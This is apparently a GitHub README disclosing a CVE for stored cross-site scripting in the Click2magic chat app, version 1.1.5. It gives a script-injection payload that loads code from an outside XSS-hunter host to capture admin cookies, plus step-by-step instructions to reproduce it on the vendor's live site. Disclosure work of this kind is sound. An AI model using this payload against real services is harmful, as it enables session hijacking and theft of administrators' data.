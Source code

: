 # CVE
This is my Repo for the CVE MITRE 



# Exploit Title: [Stored Cross Site Scripting]
# Date: 05/04/2022
# Exploit Author: [Shivam Verma]
# Vendor Homepage: [https://www.click2magic.com/]
# Software Link: [https://play.google.com/store/apps/details?id=com.tvisha.click2magic&hl=en_IN]
# Version: [1.1.5] 
# Tested on: [Kali Linux 2021.4]


Vulnerability Name: Stored Cross Site Scripting
Vulnerability Description: In this Scenario the payload is getting stored in the Server and delivering us the admin cookies we can capture admin cookies and see all the data in admin panel

Payload: "><script src=https://nick413.xss.ht></script>

Steps to reproduce: 
Step1: Goto Url: https://www.click2magic.com OR Download the app from the above link
STep2: Start a chat 
Step3: Put payload in the chat box
Payload: "><script src=https://nick413.xss.ht></script>
Step4: Wait for the admin to click on the link 
Step5: you will see the popup and getting admin cookies Confirming the Execution of payload

POC: 
![Screenshot (217)](https://user-images.githubusercontent.com/71320606/161679689-af4f576f-1df9-46a4-9c65-86d168e3f277.png)

